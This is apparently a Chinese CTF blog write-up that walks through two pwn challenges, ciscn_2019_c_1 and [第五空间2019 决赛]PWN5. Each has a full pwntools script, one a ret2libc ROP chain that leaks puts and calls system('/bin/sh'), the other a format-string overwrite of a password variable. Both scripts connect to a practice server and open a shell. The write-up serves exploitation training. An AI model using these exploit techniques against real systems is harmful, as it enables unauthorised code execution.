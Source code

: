 # 诗乃今天Pwn了吗


## ret2libc

题目：ciscn_2019_c_1

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

分析程序，发现`encrypt`函数存在危险函数`gets`可以造成栈溢出。程序开了NX保护，没有现成可供使用的shell代码，考虑使用ret2libc

首先使用ROPgadget找到需要的gadget:`pop rdi; ret`和`ret`

`python ROPgadget.py --binary ciscn --only &#34;pop|ret&#34;`

```
Gadgets information
============================================================
0x0000000000400c7c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c7e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c80 : pop r14 ; pop r15 ; ret
0x0000000000400c82 : pop r15 ; ret
0x0000000000400c7b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c7f : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004007f0 : pop rbp ; ret
0x0000000000400aec : pop rbx ; pop rbp ; ret
0x0000000000400c83 : pop rdi ; ret
0x0000000000400c81 : pop rsi ; pop r15 ; ret
0x0000000000400c7d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006b9 : ret
0x00000000004008ca : ret 0x2017
0x0000000000400962 : ret 0x458b
0x00000000004009c5 : ret 0xbf02

Unique gadgets found: 15
```

利用`encrypt`函数中的`puts`泄露出`puts`函数在内存中的地址，并重新调用执行`main`函数。

```python
pop_rdi_ret = 0x400c83
ret = 0x4006b9
start_addr = 0x400B28
puts_got = elf.got[&#39;puts&#39;]
puts_plt = elf.plt[&#39;puts&#39;]
p.recvuntil(&#34;choice!\n&#34;.encode())
p.sendline(&#34;1&#34;.encode())
p.recv()
payload = b&#34;A&#34; * 88 &#43; p64(pop_rdi_ret) &#43; p64(puts_got) &#43; p64(puts_plt) &#43; p64(start_addr)
p.sendline(payload)
p.recvuntil(b&#39;Ciphertext\n&#39;)
p.recvline()
puts_leak = u64(p.recvline()[:-1].ljust(8, b&#39;\0&#39;))
```

利用泄漏的地址寻找对应的`Libc`版本，并计算得到`libc`的加载地址和`system`函数、`/bin/sh`字符串对应地址，再次利用栈溢出漏洞得到shell

```python
libc = LibcSearcher(&#39;puts&#39;, puts_leak)
libcbase = puts_leak - libc.dump(&#39;puts&#39;)
bin_sh_addr = libcbase &#43; libc.dump(&#39;str_bin_sh&#39;)
system_addr = libcbase &#43; libc.dump(&#39;system&#39;)
payload = b&#34;A&#34; * 88 &#43; p64(ret) &#43; p64(pop_rdi_ret) &#43; p64(bin_sh_addr) &#43; p64(system_addr)
p.sendline(payload)
p.interactive()
```

完整代码：

```python
from pwn import *
from LibcSearcher import *
elf = ELF(&#34;./ciscn&#34;)
p = remote(&#34;node4.buuoj.cn&#34;, 29518)
pop_rdi_ret = 0x400c83
ret = 0x4006b9
start_addr = 0x400B28
puts_got = elf.got[&#39;puts&#39;]
puts_plt = elf.plt[&#39;puts&#39;]
p.recvuntil(&#34;choice!\n&#34;.encode())
p.sendline(&#34;1&#34;.encode())
p.recv()
payload = b&#34;A&#34; * 88 &#43; p64(pop_rdi_ret) &#43; p64(puts_got) &#43; p64(puts_plt) &#43; p64(start_addr)
p.sendline(payload)
p.recvuntil(b&#39;Ciphertext\n&#39;)
p.recvline()
puts_leak = u64(p.recvline()[:-1].ljust(8, b&#39;\0&#39;))
p.recvuntil(&#34;choice!\n&#34;.encode())
p.sendline(&#34;1&#34;.encode())
p.recv()
libc = LibcSearcher(&#39;puts&#39;, puts_leak)
libcbase = puts_leak - libc.dump(&#39;puts&#39;)
bin_sh_addr = libcbase &#43; libc.dump(&#39;str_bin_sh&#39;)
system_addr = libcbase &#43; libc.dump(&#39;system&#39;)
payload = b&#34;A&#34; * 88 &#43; p64(ret) &#43; p64(pop_rdi_ret) &#43; p64(bin_sh_addr) &#43; p64(system_addr)
p.sendline(payload)
p.recv()
p.sendline(b&#34;cat flag&#34;)
print(p.recv())
```

## 格式化字符串漏洞-任意地址写入

题目：[第五空间2019 决赛]PWN5

程序逻辑为向`0x804C044`写入随机数作为密码，输入密码正确反弹shell。

存在格式化字符串漏洞`printf(buf)`。

考虑利用格式化字符串漏洞修改`0x804C044`位置的值获得shell。

首先爆破一下偏移量

```python
from pwn import *
def pwn(payload):
	p = remote(&#34;node4.buuoj.cn&#34;, 29282)
	p.recv()
	p.sendline(payload)
	return p.recv()[6:-1]
auto = FmtStr(pwn)
offset = auto.offset
```

得到`offset=10`

利用格式化字符串漏洞将`0x804C044`位置的值修改为`0xcafe`

```python
offset = 10
p = remote(&#34;node4.buuoj.cn&#34;, 29282)
p.recv()
payload = fmtstr_payload(offset, {0x804C044 : 0xcafe})
p.sendline(payload)
p.recv()
p.sendline(str(0xcafe).encode())
p.interactive()
```

完整代码：

```python
from pwn import *
def pwn(payload):
	p = remote(&#34;node4.buuoj.cn&#34;, 29282)
	p.recv()
	p.sendline(payload)
	info = p.recv()[6:-1]
	return info

auto = FmtStr(pwn)
offset = auto.offset
p = remote(&#34;node4.buuoj.cn&#34;, 29282)
p.recv()
payload = fmtstr_payload(offset, {0x804C044 : 0xcafe})
p.sendline(payload)
p.recv()
p.sendline(str(0xcafe).encode())
p.recv()
p.sendline(b&#34;cat flag&#34;)
print(p.recv())
```

## 在学了在学了


---

> Author: Shino  
> URL: https://www.sh1no.icu/posts/pwn/  

